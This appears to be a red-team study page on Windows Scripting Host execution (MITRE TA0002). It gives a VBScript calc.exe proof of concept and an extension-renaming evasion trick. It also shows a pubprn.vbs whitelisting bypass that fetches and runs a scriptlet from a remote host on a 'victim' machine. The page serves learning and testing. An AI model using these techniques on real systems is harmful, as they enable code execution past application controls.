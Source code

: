 ```yaml
---
description: MITRE ATT&CK™ Technique TA0002
---
```

# Windows Scripting Host (WSH)

## Theory

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system. It is a Windows native engine, cscript.exe (for command-line scripts) and wscript.exe (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including vbs and vbe.

## Practice


{% tabs %}

{% tab title="Basic Usage" %}
let's use the VBScript to run executable files. The following vbs code is to invoke the Windows calculator, proof that we can execute .exe files using the Windows native engine (WSH).

```bash
#openCalc.vbs
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```

We can now execute the vbs script on the target machine
```bash
cscript.exe c:\Users\Veresk\Desktop\openCalc.vbs
wscript.exe c:\Users\Veresk\Desktop\openCalc.vbs
```

{% hint style="success" %}
A trick is to change the .vbs extension by a randomly choosen one.
{% endhint %}

```bash
wscript.exe /e:VBScript c:\Users\Veresk\Desktop\openCalc.odt
```
{% endtab %}

{% tab title="pubprn.vbs" %}
{% hint style="info" %}
Signed Script Proxy Execution - bypass application whitelisting using pubprn.vbs
{% endhint %}
Using pubprn.vbs, we will execute code to launch calc.exe. First of, the xml that will be executed by the script:

```bash
#http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"   
	>
</registration>

<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");	
]]>
</script>

</scriptlet>
```
On the victime computer:
```bash
cscript /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
```


{% endtab %}

{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/weaponization" %}
